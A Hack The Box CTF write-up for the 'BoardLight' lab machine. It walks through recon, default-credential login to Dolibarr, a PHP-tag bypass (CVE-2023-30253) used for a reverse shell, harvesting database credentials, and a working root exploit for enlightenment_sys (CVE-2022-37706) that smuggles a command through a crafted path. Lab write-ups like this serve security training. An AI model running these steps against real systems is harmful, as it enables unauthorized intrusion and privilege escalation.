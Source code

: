 ```yaml
---
title: "Hack the Box: BoardLight - Writeup" 
published: 2024-09-28
description: "Writeup of machine 'BoardLight' from HTB"
image: 'BoardLight.png'
tags: [CTF, HTB, SUID, Dolibarr, DB Creds, Enlightenment, OSCP]
category: 'CTF writeup'
draft: false
---
```


# Overview

- Machine: BoardLight
- OS: Linux
- Difficulty: Easy

# Reconnaissance

## Port Scan

The first thing I did was run _nmap_ to discover the **open ports** on the target machine:
```bash
nmap -p- -sV -sC -oA nmap/nmap -v 10.10.11.11
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
[...]
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
```
 
## Virtual host

Accessing the page running on port 80, we see that probably is a **static website** as demonstrated on _Figure 1_. At the bottom of the page, I see the DNS **board.htb**, as shown in _Figure 2_.

![BoardLight Homepage](homepage_board.png)
> _Figure 1_: **Homepage of '10.10.11.11'.**

![board.htb](./board_htb.png)
> _Figure 2_: **Discovery the DNS 'board.htb'.**

:::note
As always, I added 'board.htb' to the _/etc/hosts_ file.
:::

Accessing the the page '_board.htb_' returns an identical static site, so I started **brute forcing** with _ffuf_ to see if it has any **virtual host** with the following command:
```bash
ffuf -w /seclists/Discovery/DNS/subdomains-top1million-5000.txt -u 'http://10.10.11.11/' -H 'Host: FUZZ.board.htb' -fs 15949
[...]
crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 192ms]
```
:::note
I had to use the option '_-fs 15949_' to filter results by size because if the Vhost is not valid, the server will just return the static website.
:::

It was discovered that the VHOST '_crm.board.htb_' returns a different page, and accesing it, we can see the **_Dolibarr_ login page** as shown in _Figure 3_.

![Dolibarr](./dolibarr.png)
> _Figure 3_: **Dolibarr version '17.0.0'.**

Searching on google we discover that the **default credentials** for Dolibarr are _admin:admin_. Trying that, and we are in! But once inside, it seems like we have limited permissions, and most of the features give us access denied, as see in _Figure 4_. 

![Dolibarr Access denied](./dolibar_access_denied.png)
> _Figure 4_: **Dolibarr admin with limited permissions.**

# Exploitation

Searching for this Dolibarr version, we find that it is vulnerable to [CVE-2023-30253](https://www.swascan.com/security-advisory-dolibarr-17-0-0/). The CVE allows **executing PHP code** by bypassing an application restriction.

### How the vulnerablility works

1. First, if we don't have one, we need to create a website and a new page. 
2. Now with the page created, we click the "Edit HTML Source".
3. 1. On this page, if we try to insert PHP code with the tag **<?php ...?>**, it give us the following permission error. 
![Permission to add or edit PHP](./denied_php_tag.png)
> _Figure 5_: **Permission to write PHP code denied.**
3. 2. But if we change the PHP tag to **<?pHP ?>**, it saves the page and executes the PHP code. 
![Success save](./dolibarr_success_save.png)
> _Figure 6_: **Successfully saved the page and executed the PHP code.**
4. Now, we just need to send a reverse shell. I modified the [PHP reverse shell from PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell) to working with this CVE and waited for my connetion back.

# Privilege escalation

When I got the shell as **www-data user**, I upgraded it to a **TTY** one with _script_ and _stty_:
```bash
script -c /bin/bash -q /dev/null
<CTRL>z
stty raw -echo;fg 
```
## User flag

I got a shell as _'www-data'_, and while enumerating the open ports with `ss -ltnp`, I discovery that port **3306**(MySql) is open, so I immediately started looking for its **password** in the **Dolibarr configurate** files.

Going to dolibarr folder, I used the following _grep_ command to find out where the configurates are: </br>
`grep -ri 'db_name' | grep -v 'jquery'`

![Results of grep command](./grep_results.png)
> _Figure 7_: **Return of _grep_ command.**

It returned a lot of files, but the one that caught my attention was `/htdocs/conf/conf.php`.Opening the file and scrolling up, we find the **credentials** of the database, as demostrated at Figure 8.

![db](./db_pass.png)
> _Figure 8_: **Database credentials.**
:::warning
Remember to keep it simple. The first time on the machine, I spend some time going down the rabbit hole of getting the hashes from the database and trying to crack them. Remember to go for easy wins first.
:::

Now with that password, we can just run `su - larrisa` and paste the password we just got, and we will have the user flag in `/home/larrisa/user.txt`. 

## Root flag

After manually enumerating for some time, I found some **SUID binaries** with the following _find_ command:</br>
`find / -perm -u=s -type f 2>/dev/null`
![Results find](./result_find.png)
> _Figure 9_: **Return of the _find_ command**

Researching this binary, I found out that the version of **enlightenment** installed is vulnerable to **Privilege Escalation** with _CVE-2022-37706_.

### Steps to reproduce
1. Create two directories that confuse the logic of the binary:</br>
`mkdir -p /tmp/net`</br>
`mkdir -p "/dev/../tmp/;/tmp/exploit`
2. Create the file that the binary will execute on a **system()** call:
</br>`echo '/bin/sh' > /tmp/exploit`</br>
`chmod a+x /tmp/exploit`
3. Run the following command to get a root shell:
`/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net`

:::note
Can check more details about the vulnerability on the following GitHub.
::github{repo="MaherAzzouzi/CVE-2022-37706-LPE-exploit"}
:::

And with that we can get the **root flag** in `/root/root.txt`.

:::important[YouTube]
If you got lost at some point, I have a full Walkthough on YouTube:
<iframe width="560" height="315" src="https://www.youtube.com/embed/GxeAiKjv2A4?si=1v_dYdZluasosMmz" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>
:::
